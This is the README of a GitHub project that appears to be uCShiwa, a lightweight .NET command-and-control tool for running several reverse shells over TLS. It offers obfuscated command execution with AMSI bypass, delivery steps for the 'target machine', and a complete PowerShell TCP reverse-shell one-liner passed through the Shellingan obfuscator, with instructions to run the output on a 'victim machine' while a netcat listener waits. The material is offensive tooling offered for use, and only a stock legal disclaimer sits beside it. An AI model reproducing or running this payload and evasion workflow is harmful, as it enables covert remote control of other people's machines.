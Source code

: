 # uCShiwa

.NET Core light C2 Unit:

- Manage multiple revershells
- Use TLS and command obfuscation
- Keep It Simple, Stupid

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## Help & Documentation

Execute it without any options to print help

## Server

```shell
Ucshiwa.exe <port> <certificate.pfx> <passwd>

<0> Server mode
<0> Port: 4444
Cipher: Aes256
Hash: Sha384
Protocol: Tls12

<0> 10.10.10.10:1234 > (Your command)
```

## ReverseShell

```shell
Ucshiwa.exe <ip> <port>

<0> Reverse Shell mode
<0> Ip: 10.10.10.10
<0> Port: 4444
CN:CN=...
ExpirDate:...
PubKey:....
```

## Mutli-Client

Several revershells can be used on the same server (IP:port): 

- Clients connect periodically
- The first connected, the first tasked.
- The `exit` command allows you to change session
- The `bg` command allows you to run command in background and change session

## Encrytion

TLS 1.2

Consider the default `cert.pfx` file as compromised (password: ucshiwa). A quick way to generate your own is the `New-SelfSignedCertificate`:

```powershell
New-SelfSignedCertificate -DnsName Ucshiwa.lan -CertStoreLocation Cert:\CurrentUser\My\  -KeyAlgorithm RSA -KeyLength 4096
certmgr.msc # export the generated certificate as password protected .pfx file 
```

## Obfuscation

This is the default behavior, feel free to adapt the source code:

- Powershell is embeded in windows/linux clients (many libs but no child process creation)
- On server side, put `Shellingan.ps1` in the same directory to automatically perform command obfuscation (AMSI bypass)

## Authentication

Certificate is manualy validated during the revershell connection

## Multi-Platform

- Windows: `dotnet publish --self-contained true`
- Linux: `dotnet publish -r linux-x64 --self-contained true`

## Delivery

Unzip it on the target machine with the `Expand-Archive` cmdlet

## To use Shellingan.ps1 as a standalone script

### Import

```powershell
. .\shellingan.ps1
```

### Options

```console
-cmd: command obfuscation
-iex: add invoke-expression
-recurse: number of obfuscation loop
```

### Exemple

From your attack machine:
```console
nc64.exe -lnvp <port>
```


```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Execute the output on the victim machine to get your reverse shell
